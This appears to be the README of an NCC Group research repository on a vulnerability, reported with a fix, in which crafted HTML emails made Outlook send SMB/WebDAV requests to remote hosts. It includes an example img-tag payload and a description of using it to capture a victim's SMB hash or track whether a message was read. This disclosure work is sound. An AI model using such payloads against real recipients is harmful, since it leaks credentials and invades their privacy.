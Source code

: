 # The Outlook HTML Leak Test Project!

## What's in "./Schemes-List.xlsx"?

List of URI schemes that might work in Windows. These schemes/protocols can be useful in similar research to find new vulnerabilities or to bypass current protections.
It is interesting that opening this file using MS Office takes longer than usual that may suggest Excel is doing something on some of them. This is a great sign to find bugs/features!

## What's in "./OutlookMailApp/OutlookMailApp/resources/template.html"?

List of HTML tags that might send requests to other resources automatically or by user interaction.
This file has been generated based on the following sources:
* https://github.com/cure53/HTTPLeaks
* https://stackoverflow.com/questions/2725156/complete-list-of-html-tag-attributes-which-have-a-url-value


## Research and the Tales:

While I was working on an assessment, I received an HTML email in Outlook 2010 that contained an image tag similar to:
```
<img src="//example.com/test/image.jpg" >
```

I could see that Outlook was searching for something after opening that email and it took longer than usual to fully open it. I quickly realised that Outlook actually used the URL as “\\example.com\test\image.jpg” and sent “example.com” a SMB request.

Although it did not load the image even when the provided SMB path was valid, it could send my SMB hash to an arbitrary location. This attack did not work on Outlook 2016, however it made me start a small research project in trying different HTML tags that accept URIs with different URI schemes and special payloads.

I managed to test a list of known URI schemes with different targets by designing a quick (and dirty) ASP.NET application that used ASPOSE.Email (https://downloads.aspose.com/email/net) and Microsoft Office Interop libraries. This application generates readonly MSG files similar to the received or sent emails in Outlook. 
The cure53 HTTPLeaks project (https://github.com/cure53/HTTPLeaks) with minor changes was used as the HTML template to generate the emails. The dirty C# code, URI Schemes, formulas, and the HTML template used in this research can be found on this repository.

In order to reduce complications, Wireshark and Process Monitor of Sysinternals Suite were used to detect remote and local filesystem calls.

## Discovered Vulnerability in Outlook

Outlook sent external SMB/WebDAV requests upon opening a crafted HTML email. This could be abused to hijack a victim’s SMB hash or to determine if the recipient had viewed a message. 
This issue was exploited using Outlook default settings that blocked loading external resources such as image files.
These requests were sent immediately after opening an email. When SMB port was blocked, a WebDAV request on port 80 was sent. F
or more details and the fix, please refer to https://www.nccgroup.trust/uk/our-research/

### Identified payloads:

#### Remote Calls:
Although the “\\” pattern was blocked by Outlook, a number of other patterns and URI schemes were found that forced Outlook to send requests to remote servers.
The following table shows the identified vectors:

![Outlook Remote Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/remotecalls.png?raw=true)

#### Local Filesystem Calls:
The following URI schemes could also be used target the local filesystem that might be useful:

![Outlook Local Filesystem Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/localfscalls.png?raw=true)


## Copyright and License
OutlookLeakTest project is copyright 2018, NCC Group, and licensed under the Apache license (see LICENSE).